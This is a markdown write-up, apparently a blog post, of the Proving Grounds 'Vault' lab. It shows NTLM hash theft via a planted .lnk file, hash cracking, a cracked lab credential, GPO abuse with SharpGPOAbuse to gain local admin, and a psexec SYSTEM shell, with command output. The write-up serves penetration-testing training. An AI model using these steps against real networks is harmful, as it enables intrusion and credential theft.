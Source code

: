 ```yaml
---
title: "Vault"
date: 2025-06-20
categories:
  - Proving Grounds
  - Active Directory
  - Windows
tags:
  - Proving Grounds
  - Active Directory
---
```


# Vault 🔺
<!-- more -->


## Enumeration

![](../assets/Pasted%20image%2020250429091824.png)

Using `--rid` force, we have the users and groups.

![](../assets/Pasted%20image%2020250429173528.png)

There is a writable folder `DocumentsShare`, so we can put a `.lnk` file pointing to our `smb2` server to get hashes using `ntml_theft`.

![](../assets/Pasted%20image%2020250429194145.png)
![](../assets/Pasted%20image%2020250429194205.png)
![](../assets/Pasted%20image%2020250429194215.png)

Using `hashcat`:

![](../assets/Pasted%20image%2020250429201615.png)

`anirudh:SecureHM`

## Initial Access

![](../assets/Pasted%20image%2020250429201725.png)

Get the flag.

![](../assets/Pasted%20image%2020250429201753.png)

## Privilege Escalation

Using `bloodhound-python`, we notice that the user has `writedacl` permissions.

![](../assets/Pasted%20image%2020250429235549.png)

We can use [`SharpGPOAbuse.exe`](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpGPOAbuse.exe) to add ourselves to the admin group.

```powershell
*Evil-WinRM* PS C:\Users\anirudh\Documents> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
[+] Domain = vault.offsec
[+] Domain Controller = DC.vault.offsec
[+] Distinguished Name = CN=Policies,CN=System,DC=vault,DC=offsec
[+] SID Value of anirudh = S-1-5-21-537427935-490066102-1511301751-1103
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\vault.offsec\SysVol\vault.offsec\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
*Evil-WinRM* PS C:\Users\anirudh\Documents> 
```

Re-enter with `psexec` and:

```shell
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py vault.offsec/anirudh:SecureHM@192.168.120.116
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 192.168.120.116.....
[*] Found writable share ADMIN$
[*] Uploading file WGPlQkwE.exe
[*] Opening SVCManager on 192.168.120.116.....
[*] Creating service LVYv on 192.168.120.116.....
[*] Starting service LVYv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

## Post Exploitation

Get the flag.
